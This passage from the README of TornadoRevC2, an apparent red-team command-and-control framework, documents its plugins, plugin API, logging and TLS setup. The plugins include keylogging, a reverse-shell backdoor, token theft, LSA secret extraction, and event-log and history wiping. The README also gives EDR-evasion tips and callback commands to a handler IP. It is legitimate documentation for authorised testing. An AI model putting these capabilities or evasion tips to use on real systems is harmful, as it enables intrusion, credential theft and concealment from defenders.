| `certificates` | Windows | Certificate stores, code-signing, and enterprise certificates |
| `rdp` | Windows | Remote Desktop configuration, active sessions, recent targets, restricted-admin, start, adduser, and shadow (reverse shell as session user) |
| `gpo` | Windows | Applied GPOs, local/domain security policies, AppLocker, WDAC, SRP, and GPO scripts |
| `winrm` | Windows | WinRM configuration, listeners, authentication methods, client settings, certificate bind/exploitcert, start, adduser, and remoting status |
| `drivers` | Windows | Installed drivers and kernel modules, signed/unsigned status, startup type, and notable security/VM drivers |
| `powershell` | Windows | PowerShell version, execution policy, logging, modules, remoting settings, and profile paths |
| `lsa` | Windows | Credential-security posture and hardening gaps: LSA PPL, Credential Guard, VBS/HVCI, WDAC, NTLM, Kerberos, Winlogon, WDigest, token privileges, Registry audit policy, LAPS, DPAPI. Severity-ranked `findings` block; unreadable fields render as `N/A`. `--deep` adds DPAPI store + LSA secret name enumeration. `--extract` (implies `--deep`, needs SYSTEM) attempts in-memory DPAPI/LSA-secret decryption. No artifacts written. |
| `steal_token` | Windows | Token theft and impersonation: list processes and owners, impersonate another process's token (`--pid` / `--user`), spawn a process as the token owner (`--spawn` / `--spawn-cmd`), or spawn a reverse shell as the token owner (`--spawn-shell`). Not a collector — a C# helper (`_token_ops.cs`) loaded in-process via `Add-Type`. |
| `wmi_activity` | Windows | WMI persistence enumeration: `__EventFilter`, `CommandLineEventConsumer`, `ActiveScriptEventConsumer`, `LogFileEventConsumer`, `NTEventLogEventConsumer`, `SMTPEventConsumer`, and `__FilterToConsumerBinding`. Flags suspicious payloads (base64, encoded commands, download strings, `mshta`, `rundll32`, known tool names). Checks WMI repository integrity and lists custom namespaces |
| `trusts` | Windows | Domain trust relationships: `Get-ADTrust` with `nltest /domain_trusts` fallback. Reports direction, type, transitivity, SID filtering, forest-transitive, and selective authentication. Cross-references local Administrators for foreign principals, captures current user's SID history from group memberships, and produces an analysis block with actionable notes |
| `dlls` | Windows | Loaded module audit for a specified PID (up to 200 modules). Flags unsigned, missing-on-disk (hollowing indicator), UNC-path, suspicious-directory (`%TEMP%`, `Downloads`, `Public`) module loads, and company/signer mismatches. Suspicious entries sorted to the top |

### Execution & operational

| Plugin | Platform | Description |
|--------|----------|-------------|
| `inmemory` | Cross-platform | In-memory payload execution (`py`, `ps`, `exe`, `elf`, `bat`, `sh`) |
| `make_token` | Cross-platform | Establish C2 sessions *to other hosts* over SSH, WinRM, SMB, WMI, MSSQL, DCOM, or MySQL/MariaDB using passwords, NTLM hashes, SSH keys, WinRM client certs, netexec, and MySQL UDF auto-loading. Supports custom commands (`-C`). |
| `nullcrypt` | Cross-platform | Hybrid encrypt a file (AES-GCM + RSA-wrapped key) then securely wipe the original via wiper |
| `wiper` | Cross-platform | Configurable multi-pass secure overwrite (rename, truncate, delete); profiles: quick, standard, dod, thorough, shred |
| `historydel` | Cross-platform | Clear current user shell history files and related storage |
| `eventlogdel` | Windows | Clear Windows Event Logs: defaults (Security, System, Application, PowerShell), a custom log list, or every log with records; optional .evtx backup |
| `runas` | Windows | Execute commands or launch a TLS-encrypted reverse shell *on the current host* as another user, with saved credential management and domain support |
| `enablepriv` | Windows | Enable or disable any privilege on the current process token via `AdjustTokenPrivileges`. The C# helper is compiled in memory with `Add-Type`; no file is written to disk. Modes: `--list` (privileges present in the token), `--list-all` (standard `SeXxxPrivilege` catalogue merged with token state), `--vuln` (held privileges grouped by security significance), a single privilege by name, and `--all` / `--all --disable` for the whole token in one round trip. Names normalise in C# (`debug` → `SeDebugPrivilege`). Changes are token-scoped and revert when the shell exits. |
| `ligolong` | Cross-platform | Deploy Ligolo-NG tunneling agent to Linux/Windows targets with background persistence |
| `chisel` | Cross-platform | Deploy Chisel tunneling agent in reverse (client) or bind (server) mode; supports SOCKS5 and background persistence |
| `persistence` | Cross-platform | Install a persistent reverse shell backdoor (cron @reboot / Run registry) using TLS-encrypted payload |
| `upgrade_mtls` | Cross-platform | Push the handler's mTLS client bundle to a session and relaunch it over the mTLS listener (opt-in; does not affect other listeners) |
| `keylogger` | Cross-platform | Keystroke capture with window context: `start` / `status` / `stop` / `fetch`. Windows uses PowerShell `GetAsyncKeyState` in a hidden process. Linux/Unix uses X11 XRECORD via ctypes (no external Python deps) with a `/dev/input` fallback for root or `input`-group users. Log rotates with the token; scripts and logs removed on `stop` unless `--keep-log` |

> **`make_token` vs `runas`:** `make_token` establishes sessions *to other hosts* over remote protocols. `runas` executes *on the current host* as a different user (requires credentials).

> **`steal_token` vs `runas`:** `runas` requires credentials. `steal_token` reuses an existing logon token from another process on the same host — no credential input required, but admin/SYSTEM access is typically needed to reach the interesting tokens. `--pid` / `--user` impersonate the current thread (persistent only in interactive PowerShell sessions); `--spawn` / `--spawn-cmd` / `--spawn-shell` create an independent process that runs as the token owner and are the recommended, reliable modes.

> **SOCKS reset modes:** `socks reset` performs a soft reset (relays aborted, remote streams purged, buffers cleared). `socks reset --hard` additionally kills the remote tunnel agent and redeploys it for a clean slate. `socks test` requires an already-running proxy for the session and will not deploy the agent on its own — start a proxy first with `socks <ID> <listen_port>`. Stopping the last proxy for a session with `socks stop` automatically terminates the agent (Windows: kill the `TNB_<token>` PowerShell child; Unix: `pkill` + `rm /tmp/.tornado_agent_*.py`).

> **`preflight` is a pre-action check.** Run it before `steal_token`, `runas`, or any `inmemory` command. Its risk-assessment block tells the operator what will log the action before the action happens. If ScriptBlock logging is enabled, prefer `--spawn-shell` over PS-based flows; if AMSI is loaded and signed tooling is a concern, consider a different vector.

> **`keylogger` is signatured by design.** The Windows side uses `GetAsyncKeyState`, a heavily monitored API. Use it on targets where the engagement accepts that cost, and prefer `--spawn-shell` from a stolen token so the process runs under a different identity. The plugin logs every action to the session log for engagement reporting.

> **`rshell` callback methods require `-rh` and `-rp`.** Methods that spawn a new session (`vi_esc`, `vim_esc`) take `-rh <ip>` and `-rp <tls_port>` and open a TLS reverse shell back to the handler's TLS listener. Non-callback methods (interpreters, utilities, env) ignore those flags. `run rshell -auto` without them skips the callback methods and reports them as skipped.

**In-memory execution methods:**

| Type | Method |
|------|--------|
| `py` | Python via `exec(compile(...))` |
| `ps` | PowerShell via `[ScriptBlock]::Create(...)` (no IEX) |
| `exe` | Windows PE via in-memory RunPE (process hollowing), subsystem-aware host selection, full `CONTEXT64` context, background pipe draining |
| `elf` | Linux ELF via `memfd_create` — modern (`os.memfd_create`, Python 3.8+), legacy (direct syscall via ctypes for older Python or unsupported architectures), or `/dev/shm` fallback |
| `sh` | Shell script streamed via `bash -s` |
| `bat` | Batch script streamed via `cmd.exe /Q` stdin |

PEASS-ng scripts for in-memory privesccheck: [github.com/carlospolop/PEASS-ng](https://github.com/carlospolop/PEASS-ng)

---

## Plugin Development

This section describes how to extend TornadoRevC2 with custom plugins. Plugins are plain Python modules that register commands with `@plugin.command` and receive a `SessionContext` for the target session. No changes to core handler code are required.

### Plugin system overview

The plugin system has four layers:

| Layer | Module | Responsibility |
|-------|--------|----------------|
| **Registration** | `plugins/api.py` | `@plugin.command` decorator, global command registry, `SessionContext` |
| **Discovery** | `plugins/loader.py` | Scans `shared/`, `linux/`, `windows/`, and external directories; imports modules |
| **Execution** | `plugins/manager.py` | Resolves platform, builds context, invokes handler, handles errors |
| **Collectors** | `plugins/shared/runner.py` | Marker parsing, JSON extraction, report formatting, logging, unconditional jitter |

At import time, the `@plugin.command` decorator registers each handler in a thread-safe global registry. At runtime, `PluginManager.run_plugin()` validates platform compatibility, constructs a `SessionContext`, and calls the handler with `(session, args)`.

Built-in plugin directories are **re-scanned on demand** — `plugins rescan` (or an explicit `plugins load <name>`) re-walks `shared/`, `linux/`, and `windows/`, imports any module that was added after startup, and enables its commands. New plugin files created during an engagement are usable immediately without restarting the handler.

Handlers return an integer exit code: `0` for success, non-zero for failure. The handler console displays warnings for non-zero returns.

### Plugin placement

Choose a location based on platform scope and whether the plugin ships with the project:

| Location | Scope | Loaded |
|----------|-------|--------|
| `tornadorevc2/plugins/shared/` | Cross-platform (internal Windows + Linux implementations) | Automatically at startup; picked up live by `plugins rescan` |
| `tornadorevc2/plugins/linux/` | Linux/Unix only | Automatically at startup; picked up live by `plugins rescan` |
| `tornadorevc2/plugins/windows/` | Windows only | Automatically at startup; picked up live by `plugins rescan` |
| `./plugins/myplugin.py` | External (any scope you define) | On demand via `plugins load` or `plugins rescan` |
| `./plugins/myplugin/__init__.py` | External package | On demand via `plugins load` or `plugins rescan` |
| Path in `TORNADOREVC2_PLUGIN_DIR` | External (custom directory) | On demand via `plugins load` or `plugins rescan` |

**Layout rules:**

- Files named `common.py`, `runner.py`, and `__init__.py` under `shared/` are skipped during discovery.
- Files starting with `_` under `linux/` or `windows/` are helper modules, not plugins.
- **Shared plugins** must be a single module in `shared/` with internal platform branching—do not duplicate cross-platform plugins in both `shared/` and `linux/`/`windows/`.
- **Platform-specific plugins** (e.g. `rdp`, `eventlogdel`) belong exclusively in `windows/` or `linux/`.

### Registration

Register a command with the `@plugin.command` decorator:

```python
from tornadorevc2.plugins import plugin, SessionContext

@plugin.command(
    name="myplugin",
    platforms=["linux", "windows", "unix"],
    description="Short description for plugins list and TAB completion",
)
def run(session: SessionContext, args):
    ...
    return 0
```

**Platform values:** `linux`, `windows`, `unix`. Linux and `unix` are treated as compatible — a plugin registered for `linux` runs on both `linux` and `unix` sessions. Default if omitted: `["linux", "windows", "unix"]`.

**Multiple commands per module:** A single file may register several commands by applying `@plugin.command` to multiple functions. Each gets an independent name.

### Execution lifecycle

When an operator runs `run myplugin 1 arg1 arg2`:

```text
1. PluginManager resolves session #1 and looks up "myplugin" in the registry
2. Platform check: plugin.platforms vs session shell type (unix/windows)
3. SessionContext(handler, client_socket) is constructed
4. Handler invoked: run(ctx, ["arg1", "arg2"])
5. Jitter delay (0.5–2.5 s) before the first target command
6. Handler executes remote work via run_shell / run_marked / run_collector_plugin
7. Output printed to operator console; results logged under logs/<session>/plugins/
8. Exit code returned (0 = success)
```

Inside an attached session (`switch <ID>`), the session ID is omitted and args start immediately after the plugin name: `run myplugin arg1 arg2`.

### Pattern 1: Simple shell plugin

Use this when you need a quick one-off command without structured JSON parsing.

```python
from tornadorevc2.plugins import plugin, SessionContext

@plugin.command(
    name="whoami",
    platforms=["linux", "windows", "unix"],
    description="Print remote user identity",
)
def run(session: SessionContext, args):
    session.log_event("Plugin whoami: started")

    if session.is_windows:
        cmd = "whoami /all"
    else:
        cmd = "id 2>/dev/null || whoami"

    output = session.run_shell(cmd, timeout=10.0)
    if not output.strip():
        session.print("Plugin 'whoami' failed — no output from target.", "red")
        session.log_plugin_result("whoami", "", "no output")
        return 1

    report = output.strip()
    session.print(report, "cyan")
    session.log_plugin_result("whoami", report)
    session.log_command("run whoami", report)
    return 0
```

### Pattern 2: Structured collector (recommended)

Use this for enumeration plugins that gather structured data on the target and return a formatted report.

```python
from tornadorevc2.plugins import plugin, SessionContext
from tornadorevc2.plugins.linux._helpers import build_linux_collector_command
from tornadorevc2.plugins.shared.common import format_generic_report
from tornadorevc2.plugins.shared.runner import run_collector_plugin
from tornadorevc2.constants import PLUGIN_MARK_END, PLUGIN_MARK_START


def _linux_collector_source():
    return r'''
import shutil, subprocess
result = {'summary': {}, 'processes': []}
# Prefer shutil.which() over spawning `which` — no process creation.
try:
    out = subprocess.check_output(['ps', 'auxww'], stderr=subprocess.STDOUT, timeout=10)
    lines = out.decode('utf-8', errors='replace').splitlines()
    result['summary'] = {'count': max(0, len(lines) - 1)}
    result['processes'] = lines[1:51]
except Exception as exc:
    result['summary'] = {'error': str(exc)}
_emit(result)
'''


def _build_linux_command():
    return build_linux_collector_command(_linux_collector_source())


def _build_windows_command():
    return rf"""
$ErrorActionPreference='SilentlyContinue'
$start='{PLUGIN_MARK_START}'; $end='{PLUGIN_MARK_END}'
$procs = Get-CimInstance Win32_Process -EA 0 |
  Select-Object -First 50 ProcessId, Name, CommandLine
$result = [ordered]@{{
  summary = @{{ count = @($procs).Count }}
  processes = @($procs)
}}
Write-Output ($start + (ConvertTo-Json $result -Depth 4 -Compress) + $end)
"""


@plugin.command(
    name="processes",
    platforms=["linux", "windows", "unix"],
    description="List running processes on the remote host",
)
def run(session: SessionContext, args):
    return run_collector_plugin(
        session,
        "processes",
        _build_linux_command,
        _build_windows_command,
        format_generic_report,
        timeout=25.0,
    )
```

**`run_collector_plugin` parameters:**

| Parameter | Type | Description |
|-----------|------|-------------|
| `session` | `SessionContext` | Target session |
| `plugin_name` | `str` | Name used in logs and error messages |
| `unix_builder` | `Callable[[], str]` or `None` | Returns the Unix/Linux shell command; `None` if unavailable |
| `win_builder` | `Callable[[], str]` or `None` | Returns the PowerShell script; `None` if unavailable |
| `formatter` | `Callable[[dict], str]` | Converts parsed JSON dict to a report string |
| `timeout` | `float` | Maximum seconds to wait for marked output (default 30) |

### Pattern 3: Custom handler

Use this for argument validation, dynamic collector construction, post-collector processing, or operator-side file handling.

```python
import re
from tornadorevc2.plugins import plugin, SessionContext
from tornadorevc2.plugins.shared.runner import _run_collector_marked, parse_collector_json

@plugin.command(
    name="memorymap",
    platforms=["linux", "windows", "unix"],
    description="Enumerate memory maps for a process (requires PID)",
)
def run(session: SessionContext, args):
    if not args or not re.match(r"^\d+$", args[0].strip()):
        session.print("Usage: run memorymap <ID> <pid>", "yellow")
        return 1

    pid = args[0].strip()
    session.log_event(f"Plugin memorymap: started for PID {pid}")
    session._handler._flush_shell(session._client_sock, timeout=1.0)

    unix_cmd = _build_linux_command(pid)
    win_ps = _build_windows_command(pid)

    raw = _run_collector_marked(session, unix_cmd, win_ps, session.platform, 45.0)
    if raw is None:
        session.print("Plugin 'memorymap' failed — no response from target.", "red")
        return 1

    data = parse_collector_json(raw)
    report = format_memorymap_report(data)
    session.print(report, "cyan")
    session.log_plugin_result("memorymap", report, ...)
    return 0
```

### Linux collectors

Linux collectors are Python source strings executed on the target via `build_linux_collector_command()`.

The wrapper in `linux/_helpers.py` automatically:

- Indents your source inside a `try/except` block
- Defines `_emit(obj)` to write `__T_PLUGIN_START__` + JSON + `__T_PLUGIN_END__`
- Emits `{"error": "...", "traceback": "..."}` on unhandled exceptions
- Encodes the script for inline execution via `python3 -c` (or `python2` fallback)
- Falls back to chunked `/tmp` staging only when the encoded payload exceeds ~20000 bytes

**Guidelines:**

- **Prefer `shutil.which()` over spawning `which`** — no process creation.
- **Prefer reading config files in-process** over spawning helper binaries (`xdg-settings`, etc.).
- Use `subprocess.check_output(..., timeout=N)` for external commands that cannot be avoided.
- Trim large lists before emitting (cap at 50–80 entries).
- Handle missing tools gracefully—leave sections empty rather than raising.
- Avoid embedding marker strings in output.
- Keep collectors compact to stay under the inline size limit and avoid `/tmp` staging.
- **Skip credential-store filenames** (`Login Data`, `logins.json`, `key4.db`, `Cookies`) when enumerating browser artifacts — even a `stat()` on these paths can trip EDR rules.

### Windows collectors

Windows collectors are PowerShell script strings returned from `_build_windows_command()`.

**Guidelines:**

- Always set `$ErrorActionPreference='SilentlyContinue'` at the top.
- Use `-EA 0` on cmdlets that may fail on older systems.
- Brace-doubling is required inside Python f-strings: `{{` and `}}`.
- Use `[ordered]@{{...}}` to preserve key order.
- Prefer built-in cmdlets over external tools.
- Wrap each logical section in its own `try/catch`.
- On interactive PowerShell sessions, scripts are delivered in-process via `win_client.py`.

### JSON payload conventions

| Key | Type | Purpose |
|-----|------|---------|
| `summary` | `dict` | High-level counts and stats; rendered first by `format_generic_report()` |
| `error` | `str` | **Hard failure** — runner prints error and returns exit code 1 |
| `traceback` | `str` | Optional; logged as detail when `error` is set |
| `reason` | `str` | **Soft failure** — use with custom formatters |
| `ok` | `bool` | Success flag for operational plugins |
| Lists of `dict` | `list` | Rendered as tables |
| Lists of `str` | `list` | Rendered as bullet lists |
| Nested `dict` | `dict` | Rendered as labeled sections |

**Graceful degradation:** For multi-section enumeration, use separate dict keys per section and catch exceptions locally. Do not set top-level `error` unless the entire collector failed.

### Custom formatters

Pass a custom formatter to `run_collector_plugin` instead of `format_generic_report`:

```python
from tornadorevc2.plugins.shared.common import format_section, format_list_section

def format_firewall_report(data: dict) -> str:
    sections = []
    summary = data.get("summary") or {}
    if summary:
        sections.append(format_section("Summary", summary))
    for key in ("ufw", "iptables", "windows_defender_firewall"):
        block = data.get(key)
        if isinstance(block, dict) and block:
            sections.append(format_section(key.replace("_", " ").title(), block))
    if not sections:
        return "Firewall: no data collected."
    return "\n\n".join(sections)
```

Reusable helpers in `plugins/shared/common.py`:

| Function | Purpose |
|----------|---------|
| `format_generic_report(data, title='Results')` | Default table/section renderer |
| `format_section(title, fields, width=22)` | Key-value section |
| `format_list_section(title, items, empty='(none)')` | Bulleted list |
| `format_table_section(title, rows, columns)` | Dict rows as columns |
| `format_firewall_report`, `format_memorymap_report`, etc. | Plugin-specific formatters |

### Platform-specific plugins

**Windows-only:**

```python
@plugin.command(name="rdp", platforms=["windows"], description="...")
def run(session: SessionContext, args):
    return run_collector_plugin(
        session, "rdp",
        None,
        build_command,
        format_generic_report,
        timeout=35.0,
    )
```

**Linux-only:**

```python
@plugin.command(name="cron", platforms=["linux", "unix"], description="...")
def run(session: SessionContext, args):
    return run_collector_plugin(
        session, "cron",
        build_linux_command,
        None,
        format_generic_report,
        timeout=30.0,
    )
```

### External plugins

External plugins let you extend TornadoRevC2 without modifying the repository.

```bash
# Default location (created automatically if missing)
./plugins/myplugin.py

# Or set a custom directory
export TORNADOREVC2_PLUGIN_DIR=/path/to/my/plugins
```

**Workflow:**

```bash
plugins load myplugin      # load a known plugin
plugins rescan             # discover and load every new plugin on disk
plugins info myplugin
run myplugin 1
plugins reload myplugin    # reimport after editing the source
plugins unload myplugin
```

### SessionContext API

Every handler receives a `SessionContext` wrapping the handler and client socket:

**Metadata properties:**

| Property | Type | Description |
|----------|------|-------------|
| `session_id` | `str` | Assigned session identifier |
| `platform` | `str` | `unix`, `windows`, or `unknown` |
| `is_windows` / `is_unix` | `bool` | Platform convenience flags |
| `sysinfo` | `dict` | Cached host information |
| `identity` | `dict` | Session identity/fingerprint metadata |
| `addr` | `tuple` | Remote address |
| `tls` | `bool` | Whether session uses TLS |
| `name` | `str` | Operator-assigned friendly name |
| `fingerprint` | `str` | Stable host fingerprint |
| `logger` | `SessionLogger` | Per-session log writer |
| `colors` | `dict` | Console color codes |
| `socket` | socket | Raw client socket |

**Execution methods:**

| Method | Description |
|--------|-------------|
| `run_shell(cmd, timeout=15.0)` | Send command, wait for output, return string |
| `run_shell_streaming(cmd, timeout, idle_timeout, on_chunk)` | Stream output with idle detection |
| `run_marked(unix_cmd, win_ps_script, timeout, start_mark, end_mark, strip_ws)` | Execute platform-appropriate command and extract marked payload |
| `get_cwd()` | Return remote working directory |
| `collect_sysinfo(mode='stealth')` | Trigger host info collection |

**Transfer methods:**

| Method | Description |
|--------|-------------|
| `upload(local_path, remote_path, resume=False)` | Upload file to target |
| `download(remote_path, local_path, resume=False)` | Download file from target |
| `verify_remote(remote_path)` | Verify remote file size and SHA-256 |

**Logging and output:**

| Method | Description |
|--------|-------------|
| `print(text, color=None)` | Print to operator console with optional color |
| `log_event(message)` | Append timestamped event to `session.log` |
| `log_command(cmd, output)` | Log command and output to `session.log` |
| `log_plugin_result(name, report, detail='')` | Write report to `logs/<session>/plugins/<name>_<timestamp>.log` |

### Error handling & return codes

| Return | Meaning | Handler behavior |
|--------|---------|------------------|
| `0` | Success | No warning displayed |
| `1` (or any non-zero) | Failure | Yellow warning: `Plugin 'name' returned code N` |
| Uncaught exception | Error | Red error message; logged to session log |

**Collector failure modes** (handled by `run_collector_plugin`):

| Condition | Behavior |
|-----------|----------|
| Timeout / no markers in output | Exit 1, log "no response" |
| Output not valid JSON | Exit 1, log raw output (truncated) as detail |
| `data["error"]` present | Exit 1, print error and traceback |
| Partial section failures | Leave section empty; do **not** set top-level `error` |

### Reference implementations

| Plugin | File | Pattern | Notes |
|--------|------|---------|-------|
| `firewall` | `plugins/shared/firewall.py` | Cross-platform collector | Multi-backend graceful degradation |
| `ports` | `plugins/shared/ports.py` | Cross-platform collector | Native `ss` / `Get-NetTCPConnection` |
| `history` | `plugins/shared/history.py` | Cross-platform collector | Linux Python + Windows PowerShell builders |
| `memorymap` | `plugins/shared/memorymap.py` | Custom handler | PID argument, dynamic builder |
| `screenshot` | `plugins/shared/screenshot.py` | Custom handler | Base64 in JSON; operator-side PNG save |
| `clipboard` | `plugins/shared/clipboard.py` | Custom handler | Soft failure via `reason` field |
| `historydel` | `plugins/shared/historydel.py` | Custom handler | Destructive; post-collector shell cleanup |
| `wiper` | `plugins/shared/wiper.py` | Custom handler | Destructive; path argument validation |
| `services` | `plugins/windows/services.py` | Windows-only collector | Minimal entry point |
| `eventlogdel` | `plugins/windows/eventlogdel.py` | Windows-only collector | Destructive; per-log failure reporting |
| `rdp` | `plugins/windows/rdp.py` | Windows-only collector | Registry and firewall enumeration |
| `virtualization` | `plugins/shared/virtualization.py` | Shared entry + split builders | Imports `linux/` and `windows/` builders |
| `secrets` | `plugins/linux/secrets.py` | Linux-only collector | Platform-restricted listing |
| `steal_token` | `plugins/windows/steal_token.py` | Windows-only custom handler | C# helper loaded via `Add-Type`; impersonation vs spawn modes |
| `preflight` | `plugins/shared/preflight.py` | Cross-platform collector with custom formatter | Risk assessment rendered before raw data; ~45 EDR agent signatures |
| `sudoers` | `plugins/linux/sudoers.py` | Linux-only collector with `-eu` / `-exp` modes | Strictly sudo/sudoers-scoped; CVE matching; baseline visudo + `sudo -n -l` verification |
| `rshell` | `plugins/linux/rshell.py` | Linux-only custom handler with subcommands | Restricted-shell detection and escape automation; callback methods spawn TLS sessions |
| `writable` | `plugins/linux/writable.py` | Linux-only collector | Bounded directory walk; structured `findings` array |
| `wmi_activity` | `plugins/windows/wmi_activity.py` | Windows-only collector | Suspicious-payload pattern matching against ~20 tokens |
| `trusts` | `plugins/windows/trusts.py` | Windows-only collector | RSAT-first with `nltest` fallback; analysis block |
| `dlls` | `plugins/windows/dlls.py` | Windows-only custom handler | Requires PID argument; signature + directory analysis |
| `keylogger` | `plugins/windows/keylogger.py` | Cross-platform custom handler with subcommands | start / status / stop / fetch; state persisted per session |

---

## Session Logging

Each session writes to an isolated directory under `logs/`. The directory name includes the session ID, user, host, IP, shell type, and timestamp; the transport and direction (reverse vs bind, TCP vs TLS vs mTLS) are recorded in `session.log` when the session is created.

```text
logs/001_user@hostname_192.168.1.10_unix_10-08-2026_143022/
  session.log           Operator commands and console output
  sysinfo.json          Host information snapshot
  transfers/            Upload and download event logs
  executions/           In-memory payload execution metadata
  plugins/              Plugin reports and collector output
      quickenum_20260812_054812.log
      firewall_20260812_055130.log
      screenshot_20260812_055412.png
```

Plugin logs contain a human-readable report and, when applicable, the raw JSON payload returned by the remote collector.

**Log writing is error-safe:** if a write fails (disk full, permission error, etc.), the failure is swallowed and the session continues. Logging never aborts an active session.

**Terminal control sequences are stripped** from all target output before it is written to disk, so logs remain readable in any editor.

Tunnel operations (SOCKS start/stop, reset, cleanup, reconnect of the remote agent) are logged via the session logger under `session.log`, including remote artifact removal results.

---

## Project Structure

```text
TornadoRevC2/
├── tornadorevc2.py                 Entry point
├── tornadorevc2/
│   ├── handler.py                  Listeners, sessions, operator console
│   ├── updater.py                  Git-based self-update and restart
│   ├── sysinfo.py                  Host information collection
│   ├── terminal.py                 PTY/TTY management (OPSEC-aware)
│   ├── transfer.py                 Chunked file transfers
│   ├── tunnel.py                   SOCKS5 pivoting
│   ├── remote_exec.py              Remote command builders
│   ├── win_client.py               Windows shell detection and script delivery
│   ├── session_registry.py         Session persistence and reconnect logic
│   ├── session_log.py              Per-session directory logging (error-safe)
│   ├── terminal_sanitize.py        ANSI/OSC/DCS sequence stripping
│   ├── export.py                   HTML transcript export
│   ├── payloads.py                 Built-in payload catalog
│   └── plugins/
│       ├── api.py                  SessionContext and plugin registration
│       ├── manager.py              Plugin lifecycle and execution
│       ├── loader.py               Module discovery
│       ├── shared/                 Cross-platform plugins
│       ├── linux/                  Linux/Unix-only plugins
│       └── windows/                Windows-only plugins
├── plugins/                        Optional external plugin directory
└── logs/                           Session output (created at runtime)
```

---

## TLS & mTLS Configuration

TornadoRevC2 runs three isolated listeners, each with its own certificate source. Everything under `tls_certs/` and `mtls_certs/` is auto-generated on first run and never overwritten once the full bundle is present.

| Listener | Port | Client auth | Certificates |
|----------|------|-------------|--------------|
| TCP | `4444` | none | — |
| TLS | `8443` | server-only | `tls_certs/server.pem`, `tls_certs/server.key` |
| mTLS | `9443` | mutual (client certificate required) | `mtls_certs/` bundle |

### TLS

Auto-generated as a self-signed pair (`CN=localhost`, RSA-2048, 3650 days).

To supply your own:

```bash
python tornadorevc2.py -H 0.0.0.0 -p 4444 -tp 8443 \
  -c tls_certs/server.pem -k tls_certs/server.key
```

If the client connects using an IP address, the server certificate should include that IP in its **Subject Alternative Name (SAN)**. Avoid disabling hostname verification unless there is a specific reason to do so.

### HTTPS file transfer

TornadoRevC2 has two HTTPS file-transfer modes, both served by a transient operator-side HTTPS server that reuses the handler's hardened TLS context (`tls_certs/server.pem` + `tls_certs/server.key`, same ciphers, TLS 1.2 floor, and `OP_*` flags as the TLS listener). No additional certificates are generated.

- **`--https` (upload)** — the operator serves the file; the target downloads it (`curl -k`, `wget --no-check-certificate`, `Invoke-WebRequest`, or `certutil`).
- **`--https-push` (download)** — the operator serves an upload endpoint at `/upload`; the target pushes the file to it via HTTP `PUT` (`curl.exe -T` or `WebClient.UploadFile` on Windows, `curl -T`, `python3`, or `python2` on Linux/Unix). The body is streamed directly to the local file — the operator never buffers the whole file in memory.

For both modes the server binds to the address resolved from the optional interface argument (`--https eth0` / `--https-push eth0`), to `0.0.0.0` if omitted, or to a specific IP if passed directly (`--https 10.10.14.7`). The URL advertised to the target uses the `-RH` value if provided, otherwise the bind IP, otherwise the interface the reverse shell sees the handler on.

The HTTPS server is torn down immediately after the transfer completes or fails. It does not persist between transfers.

**Integrity and correctness:** both modes compute the target-side SHA-256 before starting the transfer, verify the received/sent bytes against it after transfer, and abort with a clear error on mismatch. **Resume is not available** on the HTTPS transports — use the default chunked paths for resumable transfers.

**Local path resolution (download):** if the `<local>` argument is an existing directory, ends with `/` or `\`, or is otherwise a directory on the operator machine, the remote file's basename is appended automatically. `download --https-push 1 /etc/hosts ./logs` writes `./logs/hosts`, not `./logs`.

### mTLS

On first run, a full PKI is bootstrapped under `mtls_certs/`:

- `ca.pem` / `ca.key` — self-signed CA (RSA-4096, CN=`TornadoRevC2-mTLS-CA`)
- `server-mtls.pem` / `server-mtls.key` — server certificate signed by the CA
- `client.pem` / `client.key` — client certificate signed by the CA
- `ca.srl` — OpenSSL serial counter generated during certificate signing

Ship **`client.pem` + `client.key` + `ca.pem`** with the authorized client. The client must present its certificate on connect or the handshake is rejected.

Start with explicit paths:

```bash
python tornadorevc2.py -H 0.0.0.0 -mp 9443 \
  --mtls-ca-cert mtls_certs/ca.pem --mtls-ca-key mtls_certs/ca.key \
  --mtls-server-cert mtls_certs/server-mtls.pem --mtls-server-key mtls_certs/server-mtls.key \
  --mtls-client-cert mtls_certs/client.pem --mtls-client-key mtls_certs/client.key
```

### Upgrading a live session to mTLS

Existing sessions on plain TCP or server-auth TLS can be moved onto the mTLS listener without restarting the handler.

```bash
# From the main handler prompt
run upgrade_mtls 1 --port 9443 --host 10.10.14.7
run upgrade_mtls 1 --keep-bundle       # leave certs on disk after launch
run upgrade_mtls 1 --no-upload         # certificate bundle already uploaded manually

# From inside an attached session (switch 1)
run upgrade_mtls
```

**`upgrade_mtls` flags:**

| Flag | Default | Description |
|------|---------|-------------|
| `--port <port>` | mTLS listener port (`9443`) | Port on the handler to connect back to |
| `--host <ip>` | Session's remote address | Handler IP to connect back to |
| `--keep-bundle` | off | Leave the certificate bundle on disk after the new session starts |
| `--no-upload` | off | Skip the upload step (bundle already present on the target) |

### Flags

| Flag | Default |
|------|---------|
| `-H` / `--host` | `0.0.0.0` |
| `-p` / `--port` | `4444` |
| `-tp` / `--tls-port` | `8443` |
| `-mp` / `--mtls-port` | `9443` |
| `-c` / `--cert`, `-k` / `--key` | `tls_certs/server.{pem,key}` |
| `--mtls-ca-cert` / `--mtls-ca-key` | `mtls_certs/ca.{pem,key}` |
| `--mtls-server-cert` / `--mtls-server-key` | `mtls_certs/server-mtls.{pem,key}` |
| `--mtls-client-cert` / `--mtls-client-key` | `mtls_certs/client.{pem,key}` |

---

## License

This project is licensed under the [GNU General Public License v3.0](LICENSE).